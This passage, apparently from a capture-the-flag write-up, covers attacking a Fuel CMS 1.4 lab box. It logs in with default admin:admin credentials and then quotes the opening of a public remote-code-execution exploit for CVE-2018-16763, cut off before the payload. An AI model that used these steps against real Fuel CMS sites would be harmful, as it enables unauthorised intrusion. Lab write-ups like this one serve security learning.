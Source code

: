 From this, we can see a few things:

1. It is indeed running Fuel CMS, and is on version 1.4
2. There is a database configuration found in `/fuel/application/config/database.php` and other configuration files
   in `/fuel/application/config/`
3. There is a `/fuel` directory, with credentials admin:admin.

### /fuel

Using the credentials, we can login to the `/fuel` directory.

![Image](./img/ignite/fuel.png)

After a bit of poking around, I didn't manage to find anything useful. I then took to Google-ing for things related to
Fuel CMS. I then came across `ExploitDB` and found
a [Fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47138) exploit.

# Exploit

The exploit was a Python script:

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
```
